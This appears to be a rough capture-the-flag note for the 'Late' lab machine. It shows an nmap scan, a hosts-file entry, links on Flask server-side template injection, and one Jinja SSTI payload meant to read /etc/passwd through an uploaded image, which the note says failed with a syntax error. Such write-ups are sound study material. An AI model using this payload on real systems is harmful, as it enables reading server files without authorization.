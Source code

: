  10.10.11.156 

```
┌──(kali㉿kali)-[~]
└─$ nmap 10.129.73.115
Starting Nmap 7.91 ( https://nmap.org ) at 2022-06-14 07:40 EDT
Nmap scan report for 10.129.73.115
Host is up (0.32s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 27.53 seconds
```

adding http://images.late.htb/ to /etc/hosts

hint is flask

https://medium.com/swlh/hacking-flask-applications-939eae4bffed

for server sid einjection

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

uplaod an image with 

{{ get_flashed_messages.globals.builtins.open("/etc/passwd").read() }}

NOT ABLE TO FEED THIS INTO OCR

Error occured while processing the image: expected token 'end of print statement', got '.'
